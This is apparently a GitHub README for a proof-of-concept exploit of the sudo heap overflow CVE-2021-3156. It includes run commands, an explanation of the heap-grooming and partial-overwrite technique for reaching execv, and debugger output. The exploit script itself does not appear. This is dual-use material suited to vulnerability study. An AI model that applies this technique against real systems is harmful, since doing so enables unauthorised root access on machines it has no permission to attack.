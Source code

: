 # CVE-2021-3156 PoC

## Introduction

This PoC is an exploit for the CVE-2021-3156 sudo vulnerability that affects most linux systems due to a heap-based buffer overflow.

**ATTENTION: This is just a Proof of Concept, not a full reliable exploit, so this might only work on very specific versions of both Ubuntu and sudo**

For a reliable exploit, an exploit compatible with multiple version should contain their specific offsets and needed inputs.

The Ubuntu and sudo version I am using are listed at the botton of this page.

This exploit takes advantage of the partial overwrite technique to bypass ASLR, but to perform it a bruteforce is required.

To reach code execution **aproximately** 4096 tries are needed.

Usage:

```
$ chmod +x ./exp.sh
$ ./exp.sh
```

## process_hooks_getenv() CURRENT method

The exploit being developed will follow the following scenario:

1) Keep tcache heap holes at the LC_* locale chunks, so when `user_args = malloc(size);` is performed, one of those chunks is returned, allowing us to overwrite the rest of heap chunks from that point

2) Search the offset and position of `hooks->u.getenv_fn()`, this will be the function we will use to perform the partial overwrite to redirect control flow to an `execv()` located at `sudoers.so` (which is loaded in the memory space)

3) Craft the exploit with a bruteforce for the partial overwrite (2 bytes)

```
lockedbyte@pwn:~$ objdump -D /usr/lib/sudo/sudoers.so -Mintel | grep "<execv"
0000000000008a00 <execv@plt>:
    8a04:	f2 ff 25 65 55 05 00 	bnd jmp QWORD PTR [rip+0x55565]        # 5df70 <execv@GLIBC_2.2.5>
   17d1a:	e8 e1 0c ff ff       	call   8a00 <execv@plt>
```

I am actually jumping to `0x8a04` to avoid that NULL byte.

### Reached exploitation point

```
Program received signal SIGSEGV, Segmentation fault.
0x0000555555566502 in ?? ()
rax            0x0                 0
rbx            0x555555583650      93824992425552
rcx            0x7                 7
rdx            0x4242424242424242  4774451407313060418
rsi            0x7fffffffe770      140737488349040
rdi            0x7ffff797464d      140737347274317
rbp            0x7ffff797464d      0x7ffff797464d
rsp            0x7fffffffe770      0x7fffffffe770
r8             0x7ffff7f61081      140737353486465
r9             0x7fffffffe6d0      140737488348880
r10            0xffffffff          4294967295
r11            0x202               514
```